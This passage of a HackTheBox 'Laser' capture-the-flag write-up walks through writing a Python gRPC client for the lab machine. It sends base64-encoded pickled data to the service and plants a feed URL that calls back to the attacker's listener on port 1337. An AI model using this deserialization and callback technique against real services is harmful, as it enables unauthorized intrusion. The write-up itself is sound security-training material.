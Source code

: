 ```python
import grpc
import laser_pb2
import laser_pb2_grpc
channel = grpc.insecure_channel("10.10.10.201:9000")
stub = laser_pb2_grpc.PrintStub(channel)
data = stub.Feed(laser_pb2.Content(data = "abcde"))
print(data.feed)
```
We have created a server using **insecure_channel**, PrintStub to invoke methods, Feed is stub object and we call it using**Feed**and We sent input **using Content** with data and returned **Data** using **feed**. 

![base64_err](/images/Hackthebox/Laser/base64_error.png)

We got error which says **Invalid base64-encoded string** means the gRPC requieres base64 string in order to communicate with service. Let's change string to base64

```python
data = stub.Feed(laser_pb2.Content(data = "YWJjZGU="))
```

![unpickle](/images/Hackthebox/Laser/unpickle.png)

Now the error says that **unpickling stack underflow** it means the gRPC doesn't accept unpickled (desearialized) objects so we can use pickle method to serialize the objects.

```python
import sys, pickle, base64
import grpc, laser_pb2, laser_pb2_grpc

payload = '{"feed_url":"http://10.10.14.12:1337"}'
payload = base64.b64encode(pickle.dumps(payload))
channel = grpc.insecure_channel('10.10.10.201:9000')
stub = laser_pb2_grpc.PrintStub(channel)
content = laser_pb2.Content(data=payload)
try:
    response = stub.Feed(content, timeout=10)
    print(response)
except Exception as ex:
    print(ex)
```
Run this python file and listen to 1337 on another terminal

